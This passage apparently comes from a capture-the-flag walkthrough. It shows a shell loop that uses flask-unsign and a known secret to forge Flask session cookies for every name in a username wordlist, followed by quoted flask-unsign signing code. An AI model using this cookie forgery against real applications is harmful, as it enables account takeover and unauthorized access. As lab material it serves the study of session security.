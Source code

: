 On refreshing, it redirects to `/login`. This could mean that I messed
up the cookie somehow, but it could also mean this isn't a valid
username.

#### Brute Username with Cookie

I'm going to generate a huge list of cookies with possible usernames.
I'll start a loop to generate them:



    oxdf@hacky$ time cat /usr/share/seclists/Usernames/Names/names.txt | \
    > while read user; do \
    >   (flask-unsign --sign --cookie "{'logged_in': True, 'username': '$user'}" --secret 'secret123' &); \
    > done > names_cookies

    real    8m10.417s
    user    0m14.970s
    sys     0m4.190s



This will take a list of names and generate all the cookies I need. This
is actually pretty slow, taking over eight minutes minutes to run.
That's because for each work it's having to start up, which includes
importing all of Flask.

I can dig into the `flask-unsign` source a bit and trace what's
happening when I call it with `--sign`. It ends up
[here](https://github.com/Paradoxis/Flask-Unsign/blob/e934573b2bcc3cfd58769e93e6761d0a9d3f21ab/flask_unsign/session.py#L121-L142):



    @lru_cache()
    def get_serializer(secret: str, legacy: bool, salt: str) -> URLSafeTimedSerializer:
        """
        Get a (cached) serializer instance
        :param secret: Secret key
        :param salt: Salt
        :param legacy: Should the legacy timestamp generator be used?
        :return: Flask session serializer
        """
        if legacy:
            signer = LegacyTimestampSigner
        else:
            signer = TimestampSigner

        return URLSafeTimedSerializer(
            secret_key=secret,
            salt=salt,
            serializer=TaggedJSONSerializer(),
            signer=signer,
            signer_kwargs={
                'key_derivation': 'hmac',
                'digest_method': hashlib.sha1})
